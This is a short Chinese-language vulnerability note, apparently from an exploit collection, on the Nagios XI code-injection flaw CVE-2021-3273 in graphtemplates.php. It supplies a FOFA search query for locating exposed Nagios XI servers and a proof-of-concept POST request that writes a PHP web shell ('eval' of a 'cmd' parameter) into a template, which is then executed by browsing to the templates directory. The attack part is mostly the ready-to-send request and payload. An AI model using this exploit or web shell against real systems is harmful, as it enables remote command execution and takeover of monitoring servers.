 # Nagios 代码注入漏洞 (CVE-2021-3273)


低于5.7的Nagios XI受/nagiosxi/admin/graphtemplates.php组件中的代码注入的影响。要利用此漏洞，攻击者必须在Nagios XI的Web系统中拥有一个管理员用户帐户。

FOFA：

```
app="Nagios-XI"
```

在nagios xi 5.7中，管理员可以编辑/删除/添加模板，/nagiosxi/admin/graphtemplates.php 模板将存储在/usr/local/nagios/share/pnp/templates中。通过访问/nagios/pnp/templates/?.php进行执行。

**PoC：**


```
POST /nagiosxi/admin/graphtemplates.php?edit=check_local_disk.php&dir=templates HTTP/1.1
Host:
...

<?php @eval($_GET['cmd']); ?>
```

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2021-3273
* https://gist.github.com/leommxj/93edce6f8572cefe79a3d7da4389374e